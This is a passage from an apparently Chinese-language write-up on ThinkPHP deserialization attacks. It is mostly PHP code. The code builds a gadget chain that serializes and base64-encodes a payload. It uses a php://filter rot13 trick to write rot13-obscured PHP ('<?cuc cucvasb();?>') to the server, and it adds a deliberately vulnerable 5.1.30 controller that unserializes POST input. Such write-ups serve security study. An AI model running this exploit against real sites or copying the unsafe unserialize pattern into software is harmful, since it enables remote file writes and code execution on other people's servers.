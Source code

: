 ```php

    class File
    {
        protected $options;
        protected $tag;

        public function __construct()
        {
            $this->options = [
                'expire' => 0,
                'cache_subdir' => false,
                'prefix' => '',
                'path' => 'php://filter/write=string.rot13/resource=<?cuc cucvasb();?>123',
                'data_compress' => false,
            ];
            $this->tag = true;
        }
    }
}
namespace {
    $file = new \think\cache\driver\File();
    $handle = new \think\session\driver\Memcached($file);
    $output = new \think\console\Output($handle);
    $query = new \think\db\Query($output);
    $relation = new \think\model\relation\HasOne($output, $query, array('lksadjflkasd'));
    $model = new \think\model\Merge($relation, $output);
    $s = new \think\process\pipes\Windows(array($model));
    echo "s=" . urlencode(base64_encode(serialize($s)));
}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204271623083.png)

但是存在一个问题,在浏览器中访问不了???

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204271641357.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204271640167.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204271642163.png)

## 5.1.x版本

5.1.30版本

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $s=input('post.s');
        $s=base64_decode($s);
        unserialize($s);
    }
}
```
